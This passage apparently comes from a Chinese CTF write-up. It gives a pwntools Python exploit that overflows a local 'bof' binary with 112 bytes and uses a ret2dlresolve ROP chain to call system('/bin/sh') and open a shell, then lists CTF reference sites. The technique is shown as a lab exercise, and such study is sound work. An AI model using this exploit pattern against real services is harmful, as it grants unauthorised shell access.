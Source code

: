 ```python
from pwn import *

p=process('./bof')


rop = ROP("./bof")
elf = ELF("./bof") 
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"]) 
rop.read(0, dlresolve.data_addr) 
rop.ret2dlresolve(dlresolve) 
raw_rop = rop.chain() 
print(rop.dump())
print(hex(dlresolve.data_addr))
payload = "A"*112 
payload += raw_rop 

p.sendline(payload)
payload= dlresolve.payload
gdb.attach(p)
p.sendline(payload)
p.interactive()
```

## 参考文献

https://firmianay.gitbooks.io/ctf-all-in-one/content/doc/6.1.3_pwn_xdctf2015_pwn200.html

https://ctf-wiki.github.io/ctf-wiki/

https://github.com/datajerk/ctf-write-ups/blob/master/umdctf2021/jie-jne-jnw/exploit-jie.py